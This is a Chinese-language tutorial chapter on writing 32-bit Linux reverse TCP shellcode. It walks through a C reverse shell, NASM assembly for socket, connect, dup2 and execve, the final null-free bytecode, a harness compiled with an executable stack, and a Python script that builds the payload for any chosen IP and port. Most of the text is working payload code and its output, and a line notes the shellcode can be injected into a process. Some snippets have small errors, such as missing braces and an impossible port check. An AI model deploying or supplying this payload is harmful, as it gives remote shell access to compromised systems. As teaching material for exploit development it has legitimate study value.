\newpage
\subsection{Linux shellcode 编写：反向 TCP shellcode}

﷽

{width="80%"}

在上一节关于 shellcoding 的内容中，我们派生了一个普通的 shell。在本节中，我的目标将是编写反向 TCP shellcode。

### 测试 shellcode

在测试 shellcode 时，最好直接把它塞进一个程序里让它运行。我们将使用与第一篇帖子相同的代码（`run.c`）：

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();  // function pointer
  func = (int (*)()) code;  // func points to our shellcode
  (int)(*func)();  // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;

```

### 反向 TCP shell

所以我们的基础代码（`shell.c`）：

```cpp
/*
shell.c - reverse TCP shell
author: @cocomelonc
demo shell for linux shellcoding example
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // attacker IP address
  const char* ip = "127.0.0.1";

  // address struct
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // socket syscall
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // connect syscall
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
  // dup2(sockftd, 0) - stdin
  // dup2(sockfd, 1) - stdout
  // dup2(sockfd, 2) - stderr
  dup2(sockfd, i);
  }

  // execve syscall
  execve("/bin/sh", NULL, NULL);

  return 0;

```

### 汇编准备

如 C 源代码所示，你需要把以下调用翻译成汇编语言：

创建一个 socket。

连接到指定的 IP 和端口。

然后通过 `dup2` 重定向 `stdin`、`stdout`、`stderr`。

用 `execve` 启动 shell。

### 创建 socket

你需要系统调用 `0x66`（`SYS_SOCKETCALL`）来基本上操作 socket：

{width="80%"}

然后清理 `eax` 寄存器：

```nasm
; int socketcall(int call, unsigned long *args);
push 0x66  ; sys_socketcall 102
pop  eax  ; zero out eax
```

下一个重要的部分——`socketcall` 系统调用的不同函数调用可以在 `/usr/include/linux/net.h` 中找到：

{width="80%"}

所以你需要从 `SYS_SOCKET`（`0x1`）开始，然后清理 `ebx`：

```nasm
push 0x1  ; sys_socket 0x1
pop  ebx  ; zero out ebx
```

`socket()` 调用基本上接收 3 个实参并返回一个 socket 文件描述符：

```cpp
sockfd = socket(int socket_family, int socket_type, int protocol);
```

对于 `protocol`：

```bash
nvim /usr/include/linux/in.h
```

{width="80%"}

对于 `socket_type`：

```bash
nvim /usr/include/bits/socket_type.h
```

{width="80%"}

对于 `socket_family`：

```bash
nvim /usr/include/bits/socket.h
```

{width="80%"}

基于这些信息，你可以在清理 `edx` 寄存器之后，把不同的实参（`socket_family`、`socket_type`、`protocol`）压入栈中：

```nasm
xor  edx, edx  ; zero out edx

; int socket(int domain, int type, int protocol);
push edx  ; protocol = IPPROTO_IP (0x0)
push ebx  ; socket_type = SOCK_STREAM (0x1)
push 0x2  ; socket_family = AF_INET (0x2)
```

由于 `ecx` 需要保存指向这个结构的指针，所以需要 `esp` 的一个副本：

```nasm
mov  ecx, esp  ; move stack pointer to ecx
```

最后执行系统调用：

```nasm
int  0x80  ; syscall (exec sys_socket)
```

它把 socket 文件描述符返回到 `eax`。

最后：

```nasm
xchg edx, eax  ; save result (sockfd) for later usage
```

### 连接到指定的 IP 和端口

首先你需要再次在 `al` 中放入标准的 `socketcall` 系统调用：

```nasm
; int socketcall(int call, unsigned long *args);
mov  al, 0x66  ; socketcall 102
```

我们来看看 `connect()` 的实参，其中最有趣的实参是 `sockaddr` 结构体：

```cpp
struct sockaddr_in {
  __kernel_sa_family_t  sin_family;  /* Address family  */
  __be16  sin_port;  /* Port number  */
  struct in_addr  sin_addr;  /* Internet address  */
};
```

所以你需要在此处放置实参。首先是 `sin_addr`，然后是 `sin_port`，最后一个是 `sin_family`（记住：逆序！）：

```nasm
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
push 0x0101017f  ; sin_addr = 127.1.1.1 (network byte order)
push word 0x5c11 ; sin_port = 4444
```

{width="80%"}

`ebx` 在此处包含 `0x1`，因为在 `socket()` 调用中压入了 `socket_type`，所以在递增 `ebx` 之后，`ebx` 应该是 `0x2`（`sin_family` 实参）：

```nasm
inc  ebx  ; ebx = 0x02
push word bx  ; sin_family = AF_INET
```

然后把指向这个 `sockaddr` 结构体的栈指针保存到 `ecx`：

```nasm
mov  ecx, esp  ; move stack pointer to sockaddr struct
```

然后：

```nasm
push 0x10  ; addrlen = 16
push ecx  ; const struct sockaddr *addr
push edx  ; sockfd
mov  ecx, esp  ; move stack pointer to ecx (sockaddr_in struct)
inc  ebx  ; sys_connect (0x3)
int  0x80  ; syscall (exec sys_connect)
```

### 通过 dup2 重定向 stdin、stdout 和 stderr

现在我们设置起始计数器并重置 `ecx` 用于循环：

```nasm
push 0x2  ; set counter to 2
pop  ecx  ; zero to ecx (reset for newfd loop)
```

`ecx` 现在为循环准备好了，只需把 socket 文件描述符保存到 `ebx`，因为你在 `dup2` 系统调用中需要它：

```nasm
xchg ebx, edx  ; save sockfd
```

然后，`dup2` 接收 2 个实参：

```cpp
int dup2(int oldfd, int newfd);
```

其中 `oldfd`（`ebx`）是客户端 socket 文件描述符，`newfd` 用于 `stdin`(0)、`stdout`(1) 和 `stderr`(2)：

```cpp
for (int i = 0; i < 3; i++) {
  // dup2(sockftd, 0) - stdin
  // dup2(sockfd, 1) - stdout
  // dup2(sockfd, 2) - stderr
  dup2(sockfd, i);

```

所以，`sys_dup2` 系统调用在一个基于 `ecx` 的循环中执行三次：

```nasm
dup:
  mov  al, 0x3f  ; sys_dup2 = 63 = 0x3f
  int  0x80  ; syscall (exec sys_dup2)
  dec  ecx  ; decrement counter
  jns  dup  ; as long as SF is not set -> jmp to dup
```

`jns` 基本上是在符号标志（SF）未设置时跳转到 `"dup"`。

我们来用 `gdb` 调试并检查 `ecx` 的值：

```bash
gdb -q ./rev
```

{width="80%"}

如你所见，在第三次 `dec ecx` 之后它包含 `0xffffffff`，等于 -1，SF 被设置，shellcode 流程继续。

最终，所有三个输出都被重定向了 :)

### 用 execve 启动 shell

这部分代码与第一部分的例子类似，但同样有一个小改动：

```nasm
; spawn /bin/sh using execve
; int execve(const char *filename, 
; char *const argv[],char *const envp[]);
mov  al, 0x0b  ; syscall: sys_execve = 11 (mov eax, 11)
inc  ecx  ; argv=0
mov  edx, ecx  ; envp=0
push edx  ; terminating NULL
push 0x68732f2f  ; "hs//"
push 0x6e69622f  ; "nib/"
mov  ebx, esp  ; save pointer to filename
int  0x80  ; syscall: exec sys_execve
```

如你所见，我们需要把 `/bin//sh` 字符串的终止 NULL 单独压入栈中，因为没有一个现成的可以使用。

所以，我们完成了。

### 最终完整 shellcode

我完整的、带注释的 shellcode：

```nasm
; run reverse TCP /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o rev.o rev.asm
; ld -m elf_i386 -o rev rev.o && ./rev
; 32-bit linux

section .bss

section .text
  global _start  ; must be declared for linker

_start:  ; linker entry point

  ; create socket
  ; int socketcall(int call, unsigned long *args);
  push 0x66  ; sys_socketcall 102
  pop  eax  ; zero out eax
  push 0x1  ; sys_socket 0x1
  pop  ebx  ; zero out ebx
  xor  edx, edx  ; zero out edx

  ; int socket(int domain, int type, int protocol);
  push edx  ; protocol = IPPROTO_IP (0x0)
  push ebx  ; socket_type = SOCK_STREAM (0x1)
  push 0x2  ; socket_family = AF_INET (0x2)
  mov  ecx, esp  ; move stack pointer to ecx
  int  0x80  ; syscall (exec sys_socket)
  xchg edx, eax  ; save result (sockfd) for later usage

  ; int socketcall(int call, unsigned long *args);
  mov  al, 0x66  ; socketcall 102

  ; int connect(int sockfd, const struct sockaddr *addr,
  ; socklen_t addrlen);
  push 0x0101017f  ; sin_addr = 127.1.1.1 
  ; (network byte order)
  push word 0x5c11 ; sin_port = 4444
  inc  ebx  ; ebx = 0x02
  push word bx  ; sin_family = AF_INET
  mov  ecx, esp  ; move stack pointer to sockaddr struct

  push 0x10  ; addrlen = 16
  push ecx  ; const struct sockaddr *addr
  push edx  ; sockfd
  mov  ecx, esp  ; move stack pointer to ecx (sockaddr_in struct)
  inc  ebx  ; sys_connect (0x3)
  int  0x80  ; syscall (exec sys_connect)

  ; int socketcall(int call, unsigned long *args);
  ; duplicate the file descriptor for
  ; the socket into stdin, stdout, and stderr
  ; dup2(sockfd, i); i = 1, 2, 3
  push 0x2  ; set counter to 2
  pop  ecx  ; zero to ecx (reset for newfd loop)
  xchg ebx, edx  ; save sockfd

dup:
  mov  al, 0x3f  ; sys_dup2 = 63 = 0x3f
  int  0x80  ; syscall (exec sys_dup2)
  dec  ecx  ; decrement counter
  jns  dup  ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char 
  ; *const argv[],char *const envp[]);
  mov  al, 0x0b  ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx  ; argv=0
  mov  edx, ecx  ; envp=0
  push edx  ; terminating NULL
  push 0x68732f2f  ; "hs//"
  push 0x6e69622f  ; "nib/"
  mov  ebx, esp  ; save pointer to filename
  int  0x80  ; syscall: exec sys_execve
```

### 测试

现在，与第一部分一样，让我们汇编它并检查它是否正常工作、且不包含任何空字节：

```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

{width="80%"}

{width="80%"}

在 4444 端口准备监听器并运行：

```bash
./rev
```

{width="80%"}

完美！

然后，通过一些 bash 技巧和 `objdump` 提取字节码：

```bash
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2
 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|
 sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

{width="80%"}

所以，我们的 shellcode 是：

```bash
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1
\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c
\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80
\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b
\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\xcd\x80"
```

然后，把顶部的代码（`run.c`）替换为：

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = 
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89"
"\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68"
"\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1"
"\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49"
"\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();  // function pointer
  func = (int (*)()) code;  // func points to our shellcode
  (int)(*func)();  // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;

```

编译、准备监听器并运行：

```bash
gcc -z execstack -m32 -o run run.c
./run
```

{width="80%"}

如你所见，一切运行完美。现在，你可以使用这个 shellcode 并把它注入到一个进程中。

但有一个注意事项。让我们把 IP 和端口变得易于配置。

### 可配置的 IP 和端口

为了解决这个问题，我创建了一个简单的 Python 脚本（`super_shellcode.py`）：

```py
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
  print (BLUE)
  print ("let's go to create your super shellcode...")
  print (ENDC)
  if int(port) < 1 and int(port) > 65535:
  print (RED + "port number must be in 1-65535" + ENDC)
  sys.exit()
  if int(port) >= 1 and int(port) < 1024:
  print (YELLOW + "you must be a root" + ENDC)
  if len(host.split(".")) != 4:
  print (RED + "invalid host address :(" + ENDC)
  sys.exit()

  h = socket.inet_aton(host).hex()
  hl = [h[i:i+2] for i in range(0, len(h), 2)]
  if "00" in hl:
  print (YELLOW)
  print ("host address will cause null bytes \
  to be in shellcode :(")
  print (ENDC)
  h1, h2, h3, h4 = hl

  shellcode_host = "\\x" + h1 + "\\x" + h2
  shellcode_host += "\\x" + h3 + "\\x" + h4
  print (YELLOW)
  print ("hex host address:")
  print (" x" + h1 + "x" + h2 + "x" + h3 + "x" + h4)
  print (ENDC)

  p = socket.inet_aton(port).hex()[4:]
  pl = [p[i:i+2] for i in range(0, len(p), 2)]
  if "00" in pl:
  print (YELLOW)
  print ("port will cause null bytes \
  to be in shellcode :(")
  print (ENDC)
  p1, p2 = pl

  shellcode_port = "\\x" + p1 + "\\x" + p2
  print (YELLOW)
  print ("hex port: x" + p1 + "x" + p2)
  print (ENDC)

  shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
  shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd"
  shellcode += "\\x80\\x92\\xb0\\x66\\x68"
  shellcode += shellcode_host
  shellcode += "\\x66\\x68"
  shellcode += shellcode_port
  shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
  shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
  shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
  shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
  shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
  shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69"
  shellcode += "\\x6e\\x89\\xe3\\xcd\\x80"

  print (GREEN + "your super shellcode is:" + ENDC)
  print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument('-l','--lhost',
  required = True, help = "local IP",
  default = "127.1.1.1", type = str)
  parser.add_argument('-p','--lport',
  required = True, help = "local port",
  default = "4444", type = str)
  args = vars(parser.parse_args())
  host, port = args['lhost'], args['lport']
  my_super_shellcode(host, port)

```

准备监听器、运行脚本、把 shellcode 复制到我们的测试程序、编译并运行：

```bash
python3 super_shellcode.py -l 10.9.1.6 -p 4444
gcc -static -fno-stack-protector -z execstack -m32 -o run run.c 
```

{width="80%"}

所以我们的 shellcode 完美工作了 :)

这就是你如何创建自己的 shellcode，例如。

我们将从我之前的一篇帖子中取出发起反向 TCP shell 的 C 代码。

所以你需要查看不同的头文件来找到实参的定义。

### 参考资料
